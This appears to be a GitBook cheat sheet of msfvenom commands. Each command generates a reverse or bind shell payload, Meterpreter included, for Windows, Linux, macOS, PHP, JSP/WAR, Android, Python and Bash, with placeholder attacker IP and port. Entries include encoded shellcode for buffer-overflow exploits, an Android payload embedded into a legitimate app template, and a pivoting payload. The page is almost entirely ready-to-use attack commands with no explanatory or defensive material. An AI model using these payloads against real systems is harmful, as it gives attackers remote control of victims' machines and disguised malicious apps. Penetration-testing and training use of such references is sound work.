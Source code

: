 ```yaml
---
cover: .gitbook/assets/Standard Banner.jpg
coverY: 0
---
```


# MSFVenom

#### Windows Meterpreter Staged Reverse TCP (x64)
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Staged Reverse TCP (x64)
`msfvenom -p windows/x64/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Stageless Reverse TCP (x64)
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Linux Meterpreter Staged Reverse TCP (x64)
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Linux Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Windows Bind TCP ShellCode - BOF
`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '' -f python -v notBuf -o shellcode`

#### macOS Meterpreter Staged Reverse TCP (x64)
`msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Stageless Reverse TCP (x64)
`msfvenom -p osx/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### php Meterpreter Stageless Reverse TCP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.php`

#### php Reverse PHP
`msfvenom -p php/reverse_php LHOST=<ip address> LPORT=<port> -o shell.php`

#### jsp Stageless Reverse TCP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.jsp`

#### WAR Stageless Reverse TCP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f war -o shell.war`

#### Android Meterpreter Reverse TCP
`msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> R -o malicious.apk`

#### Android Meterpreter Embed Reverse TCP
`msfvenom --platform android -x template-app.apk -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> -o payload.apk`

#### Python Stageless Reverse TCP
`msfvenom -p cmd/unix/reverse_python LHOST=<ip address> LPORT=<port> -f raw -o shell.py`

#### Bash Stageless Reverse TCP
`msfvenom -p cmd/unix/reverse_bash LHOST=<ip address> LPORT=<port> -f raw -o shell.sh`

#### Pivot
`msfvenom -p windows/meterpreter/reverse_named_pipe PIPEHOST=<ip address> PIPENAME=<name-of-pipe> -f exe -o <output file>`
